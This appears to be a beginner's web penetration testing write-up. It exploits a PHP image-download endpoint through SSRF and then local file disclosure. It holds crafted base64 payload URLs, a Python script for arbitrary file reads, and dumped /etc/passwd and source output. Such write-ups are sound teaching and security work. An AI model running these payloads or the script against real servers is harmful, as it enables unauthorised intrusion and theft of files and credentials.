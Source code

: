# Glimpse Into Web Penetration Testing
A web penetration testing example, that I did me and @Edd13Mora in our free time, for beginners to have an idea about websec.

Our target is a PHP web application, which gives you great tools that you can use on XXX and XXX, such as the one that gives you the ability to download a full size profile picture for a specific profile which leads us to write this write-up.

Compiling SSRF and Local File Disclosure, we were able to read the entire source code and get more vulnerabilities like SQL Injection until we got to the admin panel and were able to get the encoded login information.

## **Server-Side Request Forgery (SSRF)**

When we enter our profile name, the app redirects us, to another page with basic profile information like username, number of followers and account bio, and also gives you a download link for a full size profile picture that looks like this:

```
https://XXXXXXXXXX/XXXXXX/[BASE64].jpg
```

With Base64 in the download URL, it actually looks weird, after we decode it we can see that it's actually an Instagram image link, so we assumed the app ignores `.jpg` and just decodes base64 and sends a request to it and returns its content to us.

As we can see here:

```php
if ( !isset( $_GET["url"] ) ){
	exit();
}
$url_encoded = str_replace(".jpg", "", $_GET["url"]);
```

It will check if the parameter `url` exists, in that case `.jpg` will be replaced with nothing after that:

```php
$url = base64_decode( $url_encoded );
```

It will decode it, send the request, and print the response as we can see here:

```php
$data_headers = array();

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url ); 
curl_setopt($ch, CURLOPT_CUSTOMREQUEST, "GET");
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_HEADERFUNCTION, "header_callback");
curl_setopt($ch, CURLINFO_HEADER_OUT, 	 true);

$resp = curl_exec($ch);

curl_close ($ch);

foreach( $data_headers as $data_header){

	header( $data_header );
}

echo $resp;
```

To exploit this vulnerability, we can simply generate a malicious Base64 encoded string of our host URL in `beeceptor` so that we can check if the application is sending a request to any given URL without any checking, and it would be something like this:

```
https://XXXXXXXXXX/XXXXXX/aHR0cHM6Ly9oaGhoaC5mcmVlLmJlZWNlcHRvci5jb20=.jpg
```

Where `aHR0cHM6Ly9oaGhoaC5mcmVlLmJlZWNlcHRvci5jb20=` is our `beeceptor` URL base64 encoded.

After sending the request with our malicious payload we can see that we got a request in `beeceptor` and VOILA!! a SSRF.

## Local File Disclosure

The application does not perform any additional URL checks, which will allow us to read local files using the file URI schema, which looks like this:

```
file://[PATH]
```

We tried to read the `/etc/passwd/` file to get to know the target more, and were able to do that easily by creating a malicious URL and sending a request to it.

```
https://XXXXXXXXXX/XXXXXX/ZmlsZTovLy9ldGMvcGFzc3dkCg==.jpg // ZmlsZTovLy9ldGMvcGFzc3dkCg== -> file:///etc/passwd
```

The output will be messy in the browser, so we made an exploitation script that automate the whole process for us, and the output will be formatted:

```python
#!/usr/bin/python3
import requests, sys, base64
print(requests.get(f"https://www.XXXXXXXXXX.com/XXXXXX/{base64.b64encode(('file:///'+sys.argv[1]).encode('utf-8')).decode('utf-8')}.jpg").text)
```

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
....
cpanelphppgadmin:x:996:992:phpPgAdmin for cPanel & WHM:/var/cpanel/userhomes/cpanelphppgadmin:/usr/local/cpanel/bin/noshell
cpanelphpmyadmin:x:995:991:phpMyAdmin for cPanel & WHM:/var/cpanel/userhomes/cpanelphpmyadmin:/usr/local/cpanel/bin/noshell
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
cpses:x:994:990::/var/cpanel/cpses:/sbin/nologin
rhtmuczev5qgvzjk:x:1002:1005::/home2/rhtmuczev5qgvzjk:/usr/local/cpanel/bin/noshell
```

Reading the `passwd` file, we were able to tell that the target is hosted with `WHM / CPANEL`, and if you're not familiar with it, you can go ahead and check: [https://cpanel.net/products/](https://cpanel.net/products/), now we know the website won't be in `/var/www/html`, to access the source code and be able to read it we need to know the exact path to the `cpanel` user home path `rhtmuczev5qgvzjk`, luckily we already have `/home2/rhtmuczev5qgvzjk` in `passwd` file so it would be something like `/home2/rhtmuczev5qgvzjk/public_html/`, you can check [https://forums.cpanel.net/threads/home-path-for-user-is-alias.7474/](https://forums.cpanel.net/threads/home-path-for-user-is-alias.7474/) for more information, to be sure we tried read the `index.php` file and as expected we did.

```php
<?php require_once("common/functions.php"); ?>
<!DOCTYPE html>
<html lang="en">
<head>
....
<?php include("common/widgets/footer.php"); ?>

<script type="text/javascript">
        ga('send', 'pageview', '/');
</script>

</body>
</html> 
```

So hoping to get to the server, we've fetched all the source code and we are now ready for a nice code review.

```
WITH THE PERMISSION OF THE WEBSITE OWNER, WE WERE NOT ABLE TO SHARE THIS PART.
```
